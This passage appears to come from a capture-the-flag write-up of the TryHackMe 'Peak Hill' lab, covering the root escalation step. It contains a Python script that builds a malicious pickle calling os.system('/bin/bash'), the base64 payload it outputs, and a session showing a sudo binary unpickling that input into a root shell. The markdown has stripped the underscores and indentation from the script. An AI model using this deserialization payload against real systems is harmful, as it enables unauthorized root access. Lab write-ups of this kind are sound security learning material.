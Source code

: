 I don’t know what the **peak_hill_farm** would do because I don’t have the permission to read or transfer it (`-rwxr-x--x`), so I just execute it and try to input something if requires:

```
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow:
this not grow did not grow on the Peak Hill Farm! :(

dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: id
failed to decode base64

dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: awQ=
this not grow did not grow on the Peak Hill Farm! :(
```

According to the previous steps using **pickle**, I consider that the **pickle** might be used in this situation too. Then I create a payload which establish the root shell and then **pickle** and encode it with **base64**:

{% highlight python linenos %}
import pickle
import base64
import os

class RCE:
def **reduce**(self):
cmd = ("/bin/bash")
return os.system, (cmd,)

if **name** == '**main**':
pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled))
{% endhighlight %}

Then I execute the script and get my own payload:

```
┌──(kali㉿kali)-[~/TryHackMe/peakhill]
└─$ python3 pickle_rce.py
b'gASVJAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAkvYmluL2Jhc2iUhZRSlC4='
```

After that, I execute the **peak_hill_farm** file again and input the payload:

```
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: gASVJAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAkvYmluL2Jhc2iUhZRSlC4=
root@ubuntu-xenial:/opt/peak_hill_farm# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```
